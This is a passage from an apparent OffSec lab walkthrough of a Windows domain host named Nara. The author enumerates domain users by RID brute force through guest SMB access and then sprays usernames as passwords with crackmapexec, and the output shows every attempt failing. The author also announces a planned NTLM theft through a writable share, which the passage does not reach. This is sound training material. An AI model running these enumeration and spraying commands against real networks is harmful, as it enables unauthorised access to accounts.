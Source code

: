 ```bash
Thank you for your attention to this matter, and if you have any concerns or suggestions to improve our document management process, please share them with your department head or the HR team.
```

> This text literally gave me the hint that we can actually place files in the `nara` share, You know what i am thinking ??..........NTLM Theft 😈.

- First of all i tried to enumerate users using the RID brute technique since we have `READ` access on the “Remote `IPC`” share.

```bash
❯ cme smb 192.168.209.30 -u guest -p "" --rid-brute | grep -i sidtypeuser | awk -F'\' '{print $2}' | cut -d '(' -f1 >> users.txt

❯ \cat users.txt
Administrator 
Guest 
krbtgt 
NARA$ 
Amelia.O'Brien 
Damian.Johnson 
Helen.Robinson 
Sara.O'Sullivan 
Jasmine.Roberts 
Declan.Reynolds 
Jodie.Summers 
Carolyn.Hill 
Jemma.Humphries 
Tracy.White
```

- Then as usual tried to try usernames as password, I mean leaving no stone un-turned, This is Offsec 😭🤲.

```bash
❯ cme smb 192.168.209.30 -u users.txt -p users.txt --no-bruteforce --continue-on-success

SMB         192.168.209.30  445    NARA             [*] Windows 10.0 Build 20348 x64 (name:NARA) (domain:nara-security.com) (signing:True) (SMBv1:False)
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Guest:Guest STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\NARA$:NARA$ STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Amelia.O'Brien:Amelia.O'Brien STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Damian.Johnson:Damian.Johnson STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Helen.Robinson:Helen.Robinson STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Sara.O'Sullivan:Sara.O'Sullivan STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Jasmine.Roberts:Jasmine.Roberts STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Declan.Reynolds:Declan.Reynolds STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Jodie.Summers:Jodie.Summers STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Carolyn.Hill:Carolyn.Hill STATUS_LOGON_FAILURE 
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Jemma.Humphries:Jemma.Humphries STATUS_LOGON_FAILURE 
```